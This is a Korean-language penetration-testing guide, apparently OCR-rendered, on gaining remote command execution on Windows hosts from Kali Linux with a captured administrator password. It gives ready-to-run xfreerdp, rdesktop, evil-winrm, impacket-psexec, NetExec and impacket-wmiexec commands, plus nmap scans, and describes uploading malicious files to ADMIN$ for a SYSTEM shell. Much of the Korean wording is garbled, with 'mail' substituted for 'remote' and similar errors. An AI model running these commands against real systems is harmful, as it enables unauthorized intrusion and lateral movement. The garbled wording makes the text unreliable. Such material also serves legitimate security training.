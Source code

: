 # 🪟 Windows 우편 접근 방법 (from Kali Linux)

이 문서는 Kali Linux에서 Windows 호스트에 접근할 수 있는 다양한 우편 접어기와 관련 메치니즘을 정보합니다.
공식 권장 방식, 권장되지 않은 방식, 툴 및 명령어 예시, 실무 시 고려사항 등을 포함합니다.
※ 정보수집 단계에서 `Administrator / Password123!` 계정을 획득한 것으로 가정합니다.

---

## 📌 공식적으로 권장되는 우편 접근 방식

### ✅ 1. RDP (Remote Desktop Protocol)

* **포트**: TCP/3389
* **GUI 기반 접근 방식**
* **로커 관리자 권한 필요 없음**
* **단, 유저 계정은 반드시 `Remote Desktop Users` 그룹에 속해 있어야 함**

#### 🔍 그룹 속성 확인 (Windows)

```powershell
net user 사용자명
# 예시:
net user redraccoon
```

출력 중 `Local Group Memberships`에 `Remote Desktop Users`가 포함되어 있는지 확인

```powershell
net localgroup "Remote Desktop Users"
```

출력 중 일반 유저 계정이 포함되어 있는지 확인


#### 🔍 포트 및 서비스 확인 (Kali)

```bash
nmap -p 3389 <타겟IP> -Pn -n --open
nmap -p 3389 <타겟IP> -Pn -n --open -sV
```

결과 중 VERSION 항목에 "Microsoft Terminal Services"가 있다면 RDP 활성화 확인

#### 💪 Kali에서 접근 방법

**xfreerdp 사용 (Pass-the-Hash 가능):**  ▶️ RDP 가본적 가장 구회가 편한 방식

```bash
xfreerdp /u:administrator /p:'Password123!' /v:<타겟IP> /dynamic-resolution
```

**rdesktop 사용:**  ▶️ 구 보호가 적은 RDP 접근 툴

```bash
rdesktop -u administrator -p 'Password123!' <타겟IP>:3389
```

---

### ✅ 2. WinRM (Windows Remote Management)

* **포트**: TCP/5985 (HTTP), TCP/5986 (HTTPS)
* **SOAP 기반 프로토컴 / PowerShell Remoting의 기반**
* **기본적으로 로커 관리자 권한 필요**
* **단, 계정이 `Remote Management Users` 그룹에 속해 있다면 일반 유저도 사용 가능**

#### 🔍 그룹 속성 확인 (Windows)

```powershell
net user 사용자명
# 예시:
net user redraccoon
```

출력 중 `Local Group Memberships`에 `Remote Management Users`가 포함되어 있는지 확인

```powershell
net localgroup "Remote Management Users"
```

출력 중 일반 유저 계정이 포함되어 있는지 확인


#### 🔍 Kali에서 포트 및 서비스 확인

```bash
nmap -p 5985 <타겟IP> -Pn -n --open
nmap -p 5985 <타겟IP> -Pn -n --open -sV
```

결과 예시:

```
PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

#### 💪 Kali에서 evil-winrm 사용하여 접근

```bash
evil-winrm -i <타겟IP> -u Administrator -p 'Password123!'
```

**접근 후 명령어 예시:**

```powershell
whoami
menu
```

`evil-winrm`은 파일 업로드/다운로드, PowerShell 스크립트 삽입, DLL 실행 등 고급 기능 제공

---

## ⚠️ 공식적으로 권장되지 않는 접근 방식

### ❗ 3. SMB (Server Message Block)

* **포트**: TCP/445
* **로커 관리자 권한 필요**
* **PSExec 기본의 우편 명령 실행/셜 획득에 자주 사용**

#### 🔍 Kali에서 포트 및 서비스 확인

```bash
nmap -p 445 <타겟IP> -Pn -n --open
nmap -Pn -p 445 -sV -sC -n --open <타겟IP>
```

`microsoft-ds`가 보이면 SMB 서비스가 동작 중임

📁 **ADMIN\$ 공용이란?**

* 기본적인 Windows 관리자용 공용 폴더
* 경로: `C:\Windows`
* 즉, `ADMIN$\system32`는 `C:\Windows\system32`를  \u의미
* 악성 파일 업로드 후 실행 가능

#### 💪 impacket-psexec 사용 예시

```bash
sudo apt update -y && sudo apt install impacket-scripts
```

```bash
impacket-psexec Administrator:'Password123!'@<타겟IP>
```


**impacket-psexec 작동 원리 요약:**

1. ADMIN\$ SMB 공용에 실행 파일 업로드
2. SCM (Service Control Manager)을 통해 서비스 생성
3. 서비스 실행 -> SYSTEM 권한 셜 획득


#### 💪 NetExec 사용 (u CrackMapExec)

```bash
nxc smb <타겟IP> -u Administrator -p 'Password123!' --exec-method smbexec -x whoami
```

---

### ❗ 4. WMI (Windows Management Instrumentation)

* **포트**: TCP/135 (RPC), TCP/445
* **로커 관리자 권한 필요**
* **DCOM + RPC 기본 명령 실행 방식**

#### 🔍 Kali에서 포트 확인

```bash
nmap -p 135,445 <타겟IP> -Pn -n --open -sV -v
```

결과 예시 (WMI 시 WMI-related service, 같은 번호 또는 DCOM 동작 검사):

```
135/tcp open  msrpc   Microsoft Windows RPC
445/tcp open  microsoft-ds Windows 7 - 10 microsoft-ds
```

#### 💪 impacket-wmiexec 사용 예시
```bash
sudo apt update -y && sudo apt install impacket-scripts
```

```bash
impacket-wmiexec Administrator:'Password123!'@<타겟IP>
```


---
